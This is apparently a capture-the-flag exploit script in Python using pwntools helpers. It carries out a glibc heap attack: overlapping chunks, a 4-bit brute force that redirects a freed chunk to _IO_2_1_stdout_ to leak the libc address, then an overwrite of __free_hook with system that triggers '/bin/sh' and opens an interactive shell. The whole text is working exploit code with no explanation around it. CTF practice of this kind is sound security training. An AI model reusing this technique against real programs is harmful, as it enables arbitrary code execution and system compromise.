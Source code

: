 ```python
def edit(idx,content):
    choice(2)
    sla("idx:",str(idx))
    sa("content:",content)

def free(idx,c):
    choice(3)
    sla(":",str(idx))
    sla(":",c)

if __name__ == '__main__':

    add("123")
    add(p64(0x11)*8)
    free(1,'y')
    free(0,'n')
    edit(0,p8(0x50))
    add('123')
    add(p64(0))
    free(1,'n')
    edit(2,p64(0)+p64(0x91))
    for i in range(0x7):
        free(1,'n')
    edit(2,p64(0)+p64(0x51))
    free(0,'y')
    edit(2,p64(0)+p64(0x91))
    free(1,'y')

    # Bruteforce 4 bits to make fd point to _IO_2_1_stdout_
    edit(2,p64(0)+p64(0x51)+p16(0x7760))
    add("123")

    # Modify the flag and the write pointers
    add(p64(0xfbad3c80)+p64(0)*3+p8(0))
    rv(8)
    libc_addr=raddr()-0x3ed8b0
    lg("libc",libc_addr)
    libc.address=libc_addr
    ru("Done")
    free(0,'y')
    edit(2,p64(0)+p64(0x51)+p64(libc.symbols['__free_hook']))
    add("123")
    edit(2,p64(0)+p64(0x61)+p64(libc.symbols['__free_hook']))
    free(0,'y')
    add(p64(libc.symbols['system']))
    edit(2,'/bin/sh\x00')
    choice(3)
    sla(":",str(2))
    p.interactive()
```
